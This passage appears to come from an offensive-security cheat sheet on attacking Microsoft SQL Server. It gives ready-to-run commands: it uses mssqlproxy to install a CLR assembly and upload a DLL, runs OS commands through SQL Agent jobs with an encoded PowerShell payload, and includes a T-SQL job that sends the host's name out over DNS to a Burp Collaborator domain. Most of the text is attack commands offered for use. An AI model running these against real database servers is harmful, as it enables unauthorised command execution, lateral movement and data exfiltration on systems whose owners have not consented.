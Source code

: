 
```powershell
# https://github.com/blackarrowsec/mssqlproxy/blob/master/mssqlclient.py
python3 mssqlclient.py 'host/username:password@10.10.10.10' -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py 'host/username:password@10.10.10.10' -check -reciclador 'C:\windows\temp\reciclador.dll'
python3 mssqlclient.py 'host/username:password@10.10.10.10' -start -reciclador 'C:\windows\temp\reciclador.dll'
SQL> enable_ole
SQL> upload reciclador.dll C:\windows\temp\reciclador.dll
```


## Agent Jobs

* The execution takes place with privileges of the **SQL Server Agent service account** if a proxy account is not configured.
* :warning: Require **sysadmin** or **SQLAgentUserRole**, **SQLAgentReaderRole**, and **SQLAgentOperatorRole** roles to create a job.



### Execute commands through SQL Agent Job service

```ps1
Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell e <base64encodedscript>" -Verbose
Subsystem Options:
–Subsystem CmdExec
-SubSystem PowerShell
–Subsystem VBScript
–Subsystem Jscript
```

```sql
USE msdb; 
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1'; 
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'$name=$env:COMPUTERNAME[10];nslookup "$name.redacted.burpcollaborator.net"', @retry_attempts = 1, @retry_interval = 5 ;
EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; 
EXEC dbo.sp_start_job N'test_powershell_job1';

-- delete
EXEC dbo.sp_delete_job @job_name = N'test_powershell_job1';
```


### List All Jobs

```ps1
SELECT job_id, [name] FROM msdb.dbo.sysjobs;
SELECT job.job_id, notify_level_email, name, enabled, description, step_name, command, server, database_name FROM msdb.dbo.sysjobs job INNER JOIN msdb.dbo.sysjobsteps steps ON job.job_id = steps.job_id
Get-SQLAgentJob -Instance "<DBSERVERNAME\DBInstance>" -username sa -Password Password1234 -Verbose
```
